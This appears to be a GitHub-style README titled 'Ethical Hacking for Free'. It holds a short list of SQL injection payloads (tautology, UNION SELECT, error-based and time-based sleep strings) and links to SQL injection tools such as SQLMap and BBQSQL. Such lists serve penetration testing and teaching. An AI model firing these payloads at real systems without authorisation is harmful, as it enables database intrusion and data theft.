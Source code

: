 <h1>Ethical Hacking for Free</h1>
<p align="center">
  <img src="https://cdn.rawgit.com/sindresorhus/awesome/d7305f38d29fed78fa85652e3a63e154dd8e8829/media/badge.svg"> <img src="https://img.shields.io/github/stars/payloadbox/sql-injection-payload-list?style=social"> <img src="https://img.shields.io/github/forks/payloadbox/sql-injection-payload-list?style=social"> <img src="https://img.shields.io/github/repo-size/payloadbox/sql-injection-payload-list"> <img src="https://img.shields.io/github/license/payloadbox/sql-injection-payload-list"> <img src="https://img.shields.io/github/issues/detail/author/payloadbox/command-injection-payload-list/1">
</p>

#### Basic SQL Injection Theory
<p>

</p>

#### Generic SQL Injection Payloads

```
1" OR "1" = "1
1' OR '1' = '1
' OR 'x'='x
' AND id IS NULL; --

'''''''''''''UNION SELECT '2

```

#### Generic Error Based Payloads

```
 OR 1=1
```

#### Generic Time Based SQL Injection Payloads

```
# from wapiti
sleep(5)#
1 or sleep(5)#

```
### Resources
    <ul>
        <li><a target="_blank" href="https://github.com/MdJahidShah/SQL-Injection-Google-Dork-List/blob/main/Basic-SQL-Injection-Google-Dork-List.html">Basic SQL Injection Google Dork List</a></li>
    </ul>

#### SQL Injection Vulnerability Scanner Tool's :

* [SQLMap](https://github.com/sqlmapproject/sqlmap) – Automatic SQL Injection And Database Takeover Tool

* [jSQL Injection](https://github.com/ron190/jsql-injection) – Java Tool For Automatic SQL Database Injection

* [BBQSQL](https://github.com/Neohapsis/bbqsql) – A Blind SQL-Injection Exploitation Tool

* [NoSQLMap](https://github.com/codingo/NoSQLMap) – Automated NoSQL Database Pwnage

* [Whitewidow](https://www.kitploit.com/2017/05/whitewidow-sql-vulnerability-scanner.html) – SQL Vulnerability Scanner

* [DSSS](https://github.com/stamparm/DSSS) – Damn Small SQLi Scanner

* [explo](https://github.com/dtag-dev-sec/explo) – Human And Machine Readable Web Vulnerability Testing Format

* [Blind-Sql-Bitshifting](https://github.com/awnumar/blind-sql-bitshifting) – Blind SQL-Injection via Bitshifting

* [Leviathan](https://github.com/leviathan-framework/leviathan) – Wide Range Mass Audit Toolkit

* [Blisqy](https://github.com/JohnTroony/Blisqy) – Exploit Time-based blind-SQL-injection in HTTP-Headers (MySQL/MariaDB)
    <h2>Contact Us</h2>
    <ul>
        <li><a href="https://www.linkedin.com/in/md-jahid-shah-js/" target="_blank">Linkedin</a></li>
    </ul>
